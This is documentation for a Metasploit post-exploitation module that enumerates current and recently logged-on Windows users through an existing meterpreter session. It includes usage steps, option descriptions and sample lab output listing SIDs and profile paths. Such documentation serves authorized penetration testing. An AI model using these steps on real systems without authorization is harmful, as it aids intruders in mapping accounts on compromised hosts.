
## Vulnerable Application

This module will enumerate current and recently logged on Windows users.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/enum_logged_on_users```
  4. Do: ```set SESSION <session id>```
  5. Do: ```run```

## Options

  ***
  CURRENT
  ***
  Enumerate currently logged on users.

  ***
  RECENT      
  ***
  Enumerate Recently logged on users.

  ***
  SESSION
  ***
  The session to run this module on.

## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49196) at 2019-12-13 04:36:54 -0700

  msf exploit(multi/handler) > use post/windows/gather/enum_logged_on_users
  msf post(windows/gather/enum_logged_on_users) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/enum_logged_on_users) > run

  [*] Running against session 1

    Current Logged Users
    ====================

    SID                                            User
    ---                                            ----
    S-1-5-21-3113421791-4205713440-112141152-1000  TEST-PC\TEST


    [+] Results saved in: /root/.msf4/loot/20191213054456_default_192.168.1.10_host.users.activ_424278.txt

    Recently Logged Users
    =====================

    SID                                            Profile Path
    ---                                            ------------
    S-1-5-18                                       %systemroot%\system32\config\systemprofile
    S-1-5-19                                       C:\Windows\ServiceProfiles\LocalService
    S-1-5-20                                       C:\Windows\ServiceProfiles\NetworkService
    S-1-5-21-3113421791-4205713440-112141152-1000  C:\Users\TEST


    [*] Post module execution completed
  ```

